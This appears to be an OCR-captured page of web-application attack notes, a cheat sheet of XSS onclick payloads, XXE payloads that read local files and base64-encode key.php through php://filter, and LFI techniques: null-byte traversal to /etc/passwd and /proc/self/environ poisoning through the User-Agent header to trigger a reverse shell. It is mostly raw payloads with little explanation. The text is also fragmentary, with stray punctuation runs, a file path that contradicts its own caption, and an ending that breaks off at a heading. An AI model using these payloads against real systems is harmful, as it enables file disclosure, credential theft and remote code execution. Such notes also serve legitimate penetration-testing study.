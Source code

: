 
;;;;;;;;;;;;;;;;;;;;;;; 

'onclick='window.alert()

"onclick='alert(1)'

;;;;;;;;;;;;;;;;when you want to wrap onclick attribute to the tag

## XML external entity (XXE) injection

Common way to test the XXE

<?xml version="1.0" encoding="UTF-8"?>   

<!DOCTYPE ANY [
<!ENTITY name "test1">]>

<root>&name;</root>

###### use in SSRF

If we change to file:///etc/passwd

<?xml  version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///dev/random" >]>
<foo>&xxe;</foo>


something like this. ↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "php://filter/read=convert.base64-encode/resource=key.php" >]>
<user><username>&xxe;</username><password>&xxe;</password></user>


## LFI

##### LFI via /proc/self/environ

Once code has been injected into the User Agent header a local file inclusion vulnerability can be leveraged to execute /proc/self/environ and reload the environment variables, executing your reverse shell.

##### Null Byte Technique

vuln.php?page=/etc/passwd%00

vuln.php?page=/etc/passwd%2500

##### PHP Wrapper

###### php://filter
